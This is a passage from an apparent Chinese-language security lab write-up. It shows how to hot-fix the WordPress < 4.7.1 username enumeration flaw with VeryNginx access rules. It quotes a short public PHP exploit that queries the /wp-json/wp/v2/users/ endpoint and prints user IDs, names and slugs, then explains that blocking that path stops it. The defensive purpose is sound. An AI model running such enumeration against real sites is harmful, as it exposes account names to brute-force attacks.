 - 在不升级*Wordpress*版本的情况下，通过定制*VeryNginx*的访问控制策略规则，**热**修复`WordPress < 4.7.1 - Username Enumeration`

  ```bash
  #!usr/bin/php
  <?php
   
  #Author: Mateus a.k.a Dctor
  #fb: fb.com/hatbashbr/
  #E-mail: dctoralves@protonmail.ch
  #Site: https://mateuslino.tk 
  header ('Content-type: text/html; charset=UTF-8');
   
   
  $url= "http://localhost/";
  $payload="wp-json/wp/v2/users/";
  $urli = file_get_contents($url.$payload);
  $json = json_decode($urli, true);
  if($json){
      echo "*-----------------------------*\n";
  foreach($json as $users){
      echo "[*] ID :  |" .$users['id']     ."|\n";
      echo "[*] Name: |" .$users['name']   ."|\n";
      echo "[*] User :|" .$users['slug']   ."|\n";
      echo "\n";
  }echo "*-----------------------------*";} 
  else{echo "[*] No user";}
  
  ```

  观察代码得知，攻击首先需要访问`wp.sec.cuc.edu.cn/wp-json/wp/v2/users/`,所以只要阻止访问该链接即可。

  ![wordpress_fix](./img/wordpress_fix.png)

  ![wordpress_json](./img/wordpress_json.png)

  ![WAF_mysql](./img/WAF_mysql.png)
